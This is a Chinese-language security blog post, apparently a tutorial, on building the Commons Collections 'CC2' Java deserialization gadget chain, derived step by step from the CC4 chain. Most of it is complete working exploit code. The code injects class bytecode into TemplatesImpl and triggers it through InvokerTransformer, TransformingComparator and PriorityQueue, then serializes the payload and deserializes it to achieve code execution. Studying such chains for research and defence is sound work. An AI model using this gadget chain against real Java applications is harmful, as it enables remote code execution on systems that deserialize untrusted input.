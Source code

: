 ```yaml
---
title: JAVA安全:CC2链
---
```


*作者：Narcher*	*时间：2024/3/19*	*分类：Vulnerability Analysis*

<!--more-->

## 前言

CC2这条链和CC4很像，只是改变了原先的ChainedTransformer的地方。CC2作为CC链中唯一不用数组的链子，其作用听白日梦组长说是为了防止某些中间件重写类加载的流程，导致数组可能会加载不到。同时，CC1链在jdk8u71以上的版本因为AnnotationInvocationHandler类的readObject方法被修复了



## 正文

emmm...

我们还是先看一下ysoserial中的CC2流程：

<img src="JAVA%E5%AE%89%E5%85%A8CC2%E9%93%BE/1710849838700.png" alt="1710849838700" style="zoom:67%;" />

基本上是和CC4是一样的，我们只需要更改ChainedTransformer就好了：

### 1.InvokerTransformer部分

先把CC4贴出来：

```java
TemplatesImpl templates = new TemplatesImpl();
Class tc = templates.getClass();
Field nameField = tc.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaaa");
Field bytecodesField = tc.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("C://Users//Narcher//IdeaProjects//CC3_test.class"));
byte[][] codes = {code};
bytecodesField.set(templates,codes);
Field tfactoryField = tc.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templates, new TransformerFactoryImpl());
// templates.newTransformer();
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(TrAXFilter.class),
        new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
priorityQueue.add(1);
priorityQueue.add(2);
Class c = transformingComparator.getClass();
Field transformerField = c.getDeclaredField("transformer");
transformerField.setAccessible(true);
transformerField.set(transformingComparator, chainedTransformer);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC4.txt"));
oos.writeObject(priorityQueue);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC4.txt"));
ois.readObject();
```

将CC4中的：

```java
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(TrAXFilter.class),
        new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
};
```

改成：

```java
InvokerTransformer<Object, Object> invokerTransformer = new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});
```

相当于绕过了TrAXFilter和InstantiateTransformer，将其替换成了InvokerTransformer，进一步地沟通了TransformingComparator和

TemplatesImpl

### 2.传入templates

目前我们的链子是这样的：

```java
TemplatesImpl templates = new TemplatesImpl();
Class tc = templates.getClass();
Field nameField = tc.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaaa");
Field bytecodesField = tc.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("C://Users//Narcher//IdeaProjects//CC3_test.class"));
byte[][] codes = {code};
bytecodesField.set(templates,codes);
Field tfactoryField = tc.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templates, new TransformerFactoryImpl());
InvokerTransformer<Object, Object> invokerTransformer = new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});
TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
priorityQueue.add(1);
priorityQueue.add(2);
Class c = transformingComparator.getClass();
Field transformerField = c.getDeclaredField("transformer");
transformerField.setAccessible(true);
transformerField.set(transformingComparator, invokerTransformer);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC4.txt"));
oos.writeObject(priorityQueue);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC4.txt"));
ois.readObject();
```

因为ChainedTransformer被替换掉了，其中的ConstantTransformer自然也是没了，我们就需要传参了，先运行一下看看哪里报错，我们进去调试查看需要传参的地方即可：

<img src="JAVA%E5%AE%89%E5%85%A8CC2%E9%93%BE/1710850471999.png" alt="1710850471999" style="zoom:67%;" />

报错整数类型的对象没有newTransformer方法，再看看我们的链子，是不是突然明白该改哪里了呢？

我们将add的内容改为templates即可：

```java
TemplatesImpl templates = new TemplatesImpl();
Class tc = templates.getClass();
Field nameField = tc.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaaa");
Field bytecodesField = tc.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("C://Users//Narcher//IdeaProjects//CC3_test.class"));
byte[][] codes = {code};
bytecodesField.set(templates,codes);
Field tfactoryField = tc.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templates, new TransformerFactoryImpl());
InvokerTransformer<Object, Object> invokerTransformer = new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});
TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
priorityQueue.add(templates);
priorityQueue.add(templates);
Class c = transformingComparator.getClass();
Field transformerField = c.getDeclaredField("transformer");
transformerField.setAccessible(true);
transformerField.set(transformingComparator, invokerTransformer);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC4.txt"));
oos.writeObject(priorityQueue);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC4.txt"));
ois.readObject();
```

CC2就这样完成了